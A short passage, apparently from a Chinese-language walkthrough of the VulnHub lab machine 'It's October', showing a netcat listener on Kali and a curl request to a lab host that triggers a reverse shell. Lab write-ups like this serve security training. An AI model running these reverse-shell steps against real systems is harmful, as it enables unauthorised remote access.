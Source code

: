 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/It’s_October/It’s_October1/16.png)

kali 监听
```bash
nc -lvvp 4444
```

使用 curl 调用 shell
```bash
curl -vv http://192.168.1.249/test
```

成功回弹 shell
